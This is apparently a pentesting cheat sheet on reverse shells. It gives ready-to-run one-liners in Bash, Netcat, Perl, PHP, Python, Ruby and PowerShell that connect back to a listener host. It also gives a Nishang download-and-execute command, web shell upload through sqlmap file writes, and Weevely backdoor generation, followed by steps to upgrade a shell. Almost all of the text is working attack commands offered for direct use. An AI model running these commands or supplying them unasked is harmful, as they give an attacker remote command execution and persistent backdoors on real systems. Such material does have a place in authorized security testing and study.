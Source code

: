 ```yaml
---
title: Reverse Shell
desc: 
tags: [Linux, Netcat, PrivEsc, Privilege, Reverse, Shell, Windows]
alts: [Linux-Privilege-Escalation, Windows-Privilege-Escalation]
render_with_liquid: false
---
```


## Basic Flow

1. **Open Listener in Your Local Machine**

    First of all, you need to open listener in your local machine.

    ```sh
    nc -lvnp 4444
    ```

2. **Reverse Shell via Command Line**

    - **Bash**

        ```sh
        bash -i >&  /dev/tcp/10.0.0.1/4444 0>&1
        ```

    - **Netcat OpenBSD**

        ```sh
        rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4444 >/tmp/f
        ```

    - **Perl**

        ```sh
        perl -e 'use Socket;$i="10.0.0.1";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
        ```

    - **PHP**

        ```sh
        php -r '$sock=fsockopen("10.0.0.1",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
        ```

    - **Python**

        ```sh
        export RHOST="10.0.0.1";export RPORT=4444;python -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
        ```

    - **Ruby**

        ```sh
        ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",4444).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
        ```

    - **PowerShell**

        ```sh
        powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.0.0.1",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

        powershell.exe -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
        ```

    - **Nishang**

        **[Nishang](https://github.com/samratashok/nishang){:target="_blank"}** is the Offensive PowerShell for red team, penetration testing and offensive security.

        1. **Preparing the Payload in Your Local Machine**

            First off, copy the payload to the current working directory.

            ```sh
            cp /usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1 .
            mv Invoke-PowerShellTcp.ps1 shell.ps1
            ```

            Add the following code to the final line in the payload (shell.ps1).

            ```powershell
            Invoke-PowerShellTcp -Reverse  -IPAddress <your-local-ip> -Port 4444
            ```

        2. **Opening Wev Server in Your Local Machine**

            To download the payload and execute the reverse shell in the target machine, open the web server in your local machine.

            ```sh
            python3 -m http.server 8000
            ```

        3. **Downloading the Payload and Executing Reverse Shell**

            In the target machine, download the local-hosted payload and run reverse shell.

            ```sh
            cmd /c powershell IEX (New-Object Net.WebClient).DownloadString('http://<your-local-ip>:8000/shell.ps1')
            ```

3. **Reverse Shell via Website**

    -  **PHP Reverse Shell**

        [php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell){:target="_blank"} is an awesome payload against a website using PHP.

        ```sh
        wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php -O shell.php

        # Edit $ip and $port to your local ip:port in the payload

        ```

        Then upload the payload, or copy the content and paste to somewhere in the target website directly, and reload the page.

    - **Upload the Payload using SQLi**

        ```sh
        # req.txt: The request settings file which is saved using Burp Suite
        sqlmap -r req.txt --dbs --random-agent --batch --file-dest=/var/www/html/shell.php --file-write=./shell.php
        ```

    - **Useful Tools**

        - **[Weevely3](https://github.com/epinna/weevely3){:target="_blank"}**

            A web shell generator.

            1. **Generate Backdoor with Password**

                Credentials required.

                ```sh
                weevely generate <password> ./shell.php
                ```

            2. **Upload the Payload to Target Website and Execute Commands**

                ```sh
                weevely https://vulnerable.com/upload/shell.php <password> whoami
                ```

            3. **Get a Shell**

                ```sh
                weevely https://vulnerable.com/upload/shell.php <password>
                ```

4. **Upgrade to a Full Functional Shell**

    After successful reverse shell, it's recommended to make the shell to be more elegant.

    ```sh
    SHELL=/bin/bash script -q /dev/null
    # or
    python3 -c 'import pty; pty.spawn("/bin/bash")'
    ```

    The commands below make "your" shell even more perfect.

    ```sh
    Ctrl+z
    stty raw -echo;fg
    Enter x2
    export TERM=xterm
    ```

<br />

## Pwncat

**[Pwncat](https://pwncat.org/){:target="_blank"}** is a reverse and bind shell handler.
